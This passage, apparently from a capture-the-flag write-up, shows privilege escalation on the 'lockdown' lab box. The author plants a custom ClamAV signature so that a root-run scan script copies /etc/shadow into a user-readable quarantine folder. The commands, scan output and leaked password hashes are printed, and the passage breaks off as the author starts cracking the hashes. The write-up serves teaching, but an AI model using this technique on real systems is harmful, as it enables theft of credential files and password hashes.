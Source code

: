 The key finding here is that the script has root read and copy access to all files on the system, and will make any files "discovered" by clamscan available to the cyrus user -  if we can find a way to force clamscan to "discover" arbitrary files, we will have full read access to the system. So how does clamscan discover files? Like most AVs, it compares files to known signatures. [Stackoverflow tells us that clamab stores these known signatures](https://askubuntu.com/questions/114000/how-to-update-clamav-definitions-database) at `/var/lib/clamav`, where we find the rule used to discover the `testvirus` file stored in cyrus' home directory : 

```console
cyrus@lockdown:/var/lib/clamav$ ls
main.hdb  mirrors.dat
cyrus@lockdown:/var/lib/clamav$ cat main.hdb 
69630e4574ec6798239b091cda43dca0:69:EICAR_MD5
```

We can confirm that the `/var/lib/clamav` directory is writeable by cyrus, but how do we go about writing our rules? [The clamav docs provide a guide to writing our own signature rules](https://docs.clamav.net/manual/Signatures/ExtendedSignatures.html). The signatures follow a base format "MalwareName:TargetType:Offset:HexSignature", where HexSignature is the signature (in bytes) that clamscan searches for in scanned files. So now we're in a position to attempt an attack, and with full read access to the system, we're going to target `/etc/shadow`. Skimming the clamav docs for info on the TargetType and Offset parameters allows us to write the following rule, hex encoding "root:" to match the first shadow entry followed by any number of bytes (??). The `.ndb` file extension is provided by the docs : 

```console
cyrus@lockdown:/var/lib/clamav$ echo "exploit:0:*:726f6f743a??" >> exploit-rule.ndb
```

We then run the script providing `/etc/shadow` as the scan target :

```console
Enter path: /etc/shadow
/etc/shadow: exploit.UNOFFICIAL FOUND
/etc/shadow: copied to '/home/cyrus/quarantine/shadow'

----------- SCAN SUMMARY -----------
Known viruses: 3
Engine version: 0.103.2
Scanned directories: 0
Scanned files: 1
Infected files: 1
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 0.006 sec (0 m 0 s)
Start Date: 2021:10:02 17:17:19
End Date:   2021:10:02 17:17:19
```

and sure enough, a copy of `/etc/shadow` is available at `/home/cyrus/quarantine` with the maxine user's password hash : 

```console
cyrus@lockdown:~$ tail quarantine/shadow
...snip...
maxine:$6$/syu6s6/$Z5j6C61vrwzvXmFsvMRzwNYHO71NSQgm/z4cWQpDxMt3JEpT9FvnWm4Nuy.xE3xCQHzY3q9Q4lxXLJyR1mt320:18838:0:99999:7:::
cyrus:$6$YWzR.V19JxyENT/D$KuSzWbb6V0iXfIcA/88Buum92Fr5lBu6r.kMoQYAdfvbJuHjO7i7wodoahlZAYfFhIuymOaEWxGlo0WkhbqaI1:18757:0:99999:7:::
...snip...
```
Once again, we copy the discovered hash to a file `hash_max` and attempt to crack with john and rockyou :
